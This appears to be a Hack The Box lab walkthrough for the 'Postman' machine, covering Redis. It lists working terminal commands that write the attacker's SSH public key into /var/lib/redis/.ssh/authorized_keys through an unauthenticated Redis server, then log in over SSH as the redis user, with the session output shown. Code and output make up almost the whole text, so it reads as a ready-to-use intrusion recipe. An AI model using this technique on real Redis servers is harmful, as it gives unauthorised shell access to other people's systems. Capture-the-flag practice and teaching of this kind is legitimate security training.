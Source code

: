 # 15 - Redis


Redis a key-value database, stored in memory.


# File upload
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/postman]
└──╼ $ ssh-keygen -f postman
┌─[user@parrot]─[10.10.14.14]─[~/htb/postman]
└──╼ $ chmod 600 postman
┌─[user@parrot]─[10.10.14.14]─[~/htb/postman]
└──╼ $ vi postman.pub # Add 2 new lines to the bottom and the top.
┌─[user@parrot]─[10.10.14.14]─[~/htb/postman]
└──╼ $ cat postman.pub | redis-cli -h 10.10.10.160 -x set crackit  
OK
┌─[user@parrot]─[10.10.14.14]─[~/htb/postman]
└──╼ $ redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
```


Anonymous authentication is enabled, by uploading our public key to .ssh/authorized_keys, we can log in using ssh. Notice the public key needs new lines at the bottom and the top. 


# SSH
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/postman]
└──╼ $ ssh -l redis -i postman 10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Aug 25 17:45:44 2021 from 10.10.14.14
redis@Postman:~$ 
```